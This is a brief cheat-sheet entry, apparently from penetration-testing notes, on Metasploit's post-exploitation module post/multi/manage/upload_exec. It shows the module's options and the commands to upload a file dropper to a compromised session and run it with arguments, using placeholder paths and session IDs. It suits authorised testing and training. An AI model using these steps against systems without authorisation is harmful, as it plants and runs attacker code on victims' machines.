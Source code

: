 # Metasploit

Search Tag(s): #post-exploitation #metasploit-framework #linux

Upload file droppers and execute it with arguments.

```
msf > use post/multi/manage/upload_exec

msf post(multi/manage/upload_exec) > options 

Module options (post/multi/manage/upload_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   ARGS                      no        Command-line arguments to pass to the uploaded file
   LPATH                     yes       Local file path to upload and execute
   RPATH                     no        Remote file path on target (default is basename of LPATH)
   SESSION                   yes       The session to run this module on
   TIMEOUT  60               yes       Timeout for command execution


View the full module info with the info, or info -d command.

msf post(multi/manage/upload_exec) > set lpath /path/to/local/file

msf post(multi/manage/upload_exec) > set args "[arguments]"

msf post(multi/manage/upload_exec) > set rpath /path/to/remote/file

msf post(multi/manage/upload_exec) > set session <session_ID>

msf post(multi/manage/upload_exec) > run
```

---
## References

- [Rapid7: Metasploit Framework Upload Exec Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/manage/upload_exec.md)